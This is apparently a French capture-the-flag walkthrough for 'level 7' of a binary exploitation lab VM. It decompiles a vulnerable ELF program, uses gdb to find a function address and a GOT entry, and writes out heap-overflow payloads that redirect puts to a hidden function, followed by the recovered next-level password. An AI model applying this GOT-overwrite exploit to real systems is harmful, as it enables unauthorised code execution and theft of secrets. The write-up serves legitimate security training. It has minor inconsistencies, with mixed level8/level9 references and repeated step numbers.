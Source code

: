 # LEVEL 7
## Walkthrough

Voici les étapes suivit pour accéder au niveau supérieur, soit le `level8`.

1. Une fois connecté à la VM sur le `level7`, l'on retrouve un fichier `level7` situé à la racine du dossier utilisateur. Ce dernier s'avère être de nouveau un exécutable ELF (Executable and Linkable Format).

2. On extrait ce fichier sur la machine host soit en utilisant la commande `scp` soit en utilisant un logiciel créer à cet effet.

    ```sh
    > scp -P 4242 level7@127.0.0.1:level7 /path/on/machine/host
    ```

2. On ouvre ensuite ce fichier dans Ghidra et après analyse, on obtient le désassemblage ci-dessous (que l'on refactorise pour plus de clarté).

    ```sh
    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>
    #include <unistd.h>
    #include <sys/types.h>
    #include <time.h>

    char c[68];

    void m(void* param_1, int param_2, char param_3, int param_4, int param_5) {
    	time_t tVar1;

    	tVar1 = time(NULL); # (time_t *)0x0 = NULL
    	printf("%s - %ld\n", c, (long) tVar1);
    }

    int main(int ac, char** argv)
    {
    	int* puVar1;
    	void* pvVar2;
    	int* puVar3;
    	FILE* __stream;

    	puVar1 = (int *) malloc(8);
    	*puVar1 = 1;
    	pvVar2 = malloc(8);
    	puVar1[1] = pvVar2;
    	puVar3 = (int *) malloc(8);
    	*puVar3 = 2;
    	pvVar2 = malloc(8);
    	puVar3[1] = pvVar2;
    	strcpy((char *) puVar1[1], argv[1]);
    	strcpy((char *) puVar3[1], argv[2]);
    	__stream = fopen("/home/user/level8/.pass","r");
    	fgets(c, 68, __stream); // 0x44 = 68 decimal
    	puts("~~");
    	return EXIT_SUCCESS;
    }
	```

    À partir de ce désassemblage, on en déduit que le programme contient 2 fonctions : une fonction `run` avec les paramètres classiques d'un `main` en C (soit `ac` de type `int` et `argv` de type `char **`) et une fonction `m` qui prends 5 paramètres, mais qui ne sont pas utilisées.

    Plus précisément, la fonction `main` effectue les actions suivantes :
    - Alloue de la mémoire pour des entiers et des pointeurs ;
    - Copie les deux premiers arguments, soit `argv[1]` et `argv[2]`, dans des zones mémoires allouées dynamiquement ;
    - Tente d'ouvrir le fichier `/home/user/level8/.pass` contenant le mot de passe du niveau suivant pour y lire son contenu et le stocker dans le tableau de char nommé `c` (qu'on suppose être une variable globale étant donné qu'elle n'est pas définie dans le scope de la fonction) ;
    - Affiche "~~" sur la sortie standard pour indiquer la fin du programme.

    En ce qui concerne la fonction `m`, celle-ci, récupère le temps actuel à l'aide de la fonction `time` et affiche sur la sortie standard la chaîne de caractères `c` (qu'on suppose être une variable globale, encore une fois), suivie de la valeur du temps actuel. Cependant, cette dernière ne semble pas être appelée par la fonction `main`.

4. De fait, il va falloir trouver une façon d'appeler la fonction `m` pour que la variables global `c`, contenant le mot de passe du niveau supérieur, s'affiche dans la sortie standard. Comme pour un des niveaux précédents, nous allons exploiter la fonction `strcpy` pour effectuer un `buffer overflow` et ainsi appeler la fonction `m` au lieu de la fonction `puts`. Ainsi, `main` en voulant exécuter `puts` exécutera `m`.

5. Dans un premier temps, l'on doit récupérer les adresses des fonctions `main` et `m` en utilisant `gdb` sur l'exécutable `level7` puis la commande `info function`.

    ```sh
    > gdb level7
    > info function
    [...]
		0x080484f4  m
		0x08048521  main
	[...]
    ```

    On se retrouve donc avec l'adresse `0x080484f4` pour la fonction `m` et l'adresse `0x08048521` pour la fonction `main`.

6. Dans un deuxième temps, on doit récupérer l'adresse de la fonction `puts` au sein de la fonction `main`. De nouveau, nous allons utiliser `gdb` sur l'exécutable `level7` pour effectuer un `disas` de la fonction `main` puis de l'adresse de la fonction `puts` appelé au sein de main. Pour s'assurer qu'il s'agit de la bonne adresse, nous allons examiner l'adresse trouver dans la GOT (Global Offset Table) en utilisant la commande `x`.

    ```sh
    > gdb level7
    > disas main
    Dump of assembler code for function main:
		[...]
		0x080485f7 <+214>:   call   0x8048400 <puts@plt>
		[...]
	End of assembler dump.
	> disas 0x8048400
	Dump of assembler code for function puts@plt:
		0x08048400 <+0>:     jmp    *0x8049928
		0x08048406 <+6>:     push   $0x28
		0x0804840b <+11>:    jmp    0x80483a0
	End of assembler dump.
	> x 0x8049928
	0x8049928 <puts@got.plt>:       0x08048406
    ```

    Ainsi, nous obtenons l'adresse `0x8049928` pour la fonction `puts`, tant bien au sein de la fonction `main` qu'au sein de la GOT.

    Pour info :
    - GOT, Global Offset Table : La Global Offset Table est une table qui indexe pour chaque fonction externe ou variable global externe son adresse globale.

7. Maintenant, que nous avons toutes les adresses nécessaires à l'exploit, l'on peut générer les payloads ci-dessous (un pour chacun des arguments utilisés dans le `main`, soit 2 pour [1]` et `argv[2]`).

    - Premier payload :
        ```sh
        > python -c 'print "A" * 20 + "\x28\x99\x04\x08"'
        ```
        On a :
        - `"A" * 20`: La chaîne de caractères nécessaire au `buffer overflow` (nous avons tester de 16 à 25) ;
        - `\x28\x99\x04\x08`: L'adresse de la fonction `puts` dans la GOT en format little-endian.

    - Second payload :
        ```sh
        > python -c 'print "\xf4\x84\x04\x08"'
        ```
        On a :
        - `\xf4\x84\x04\x08`: L'adresse de la fonction `m` en format little-endian.

8. Il manque plus qu'à lancer le programme avec les payloads précédemment définie pour `buffer overflow` les fonctions `strcpy`, que la fonction `m` soit appelée au lieu de la fonction `puts` et que cette dernière affiche dans la sortie standard le contenu de fichier `/home/user/level9/.pass` stocké dans la variable global `c`.

    ```sh
    > ./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
    5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
    ```

9. On peut à présent passer au niveau supérieur en exécutant la commande `su level9` et en y spécifiant le mot de passe qui vient d'être trouvée.

    ```sh
    > su level9
    Password :
    > 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
    ```
